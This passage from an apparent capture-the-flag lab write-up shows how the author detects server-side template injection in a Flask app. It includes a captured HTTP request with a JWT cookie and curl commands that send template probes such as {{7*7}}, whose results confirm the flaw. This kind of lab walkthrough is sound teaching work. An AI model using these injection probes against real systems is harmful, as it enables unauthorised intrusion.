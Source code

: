     
    
    POST / HTTP/1.1
    Host: 10.10.10.96:8080
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101 Firefox/63.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.96:8080/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 23
    Connection: close
    Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0MTM4MjY0NH0.lqjfl1X6PMzjZqW0XEPIfqGfmcxGuxuexotPVf28kX8
    Upgrade-Insecure-Requests: 1
    
    name=GBR-4045&desc=test
    
    
    
    HTTP/1.0 302 FOUND
    Content-Type: text/html; charset=utf-8
    Content-Length: 25
    Location: http://10.10.10.96:8080/
    Server: Werkzeug/0.14.1 Python/2.7.14
    Date: Mon, 05 Nov 2018 11:11:15 GMT
    
    Name: GBR-4045 desc: test
    

This is useful, as now I’m not going to be doing this blind. I can also guess
that the template is something really simple like:

    
    
    Name: {{ name }} desc: {{ desc }}
    

### POC

The Portswigger and PayloadsAllTheThings sites have the same nice flow chart
for testing for SSTI and getting the probable templating engine:

![1546642016484](https://0xdfimages.gitlab.io/img/1546642016484.png)

I’ll grab my cookie, and move over to curl to test:

    
    
    root@kali# curl -X POST --data "name=asd&desc={7*7}" http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY0Mzg5NX0.4_KeOJDJPbguN1bLZg8dbOmSr5f5L5IlpS6XixNsLSU"
    Name: asd desc: {7*7}
    
    root@kali# curl -X POST --data "name=asd&desc={{7*7}}" http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY0Mzg5NX0.4_KeOJDJPbguN1bLZg8dbOmSr5f5L5IlpS6XixNsLSU"
    Name: asd desc: 49
    
    root@kali# curl -X POST --data "name=asd&desc={{7*'7'}}" http://10.10.10.96:8080/ -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IndpemFyZC5veiIsImV4cCI6MTU0NjY0Mzg5NX0.4_KeOJDJPbguN1bLZg8dbOmSr5f5L5IlpS6XixNsLSU"
    Name: asd desc: 7777777
    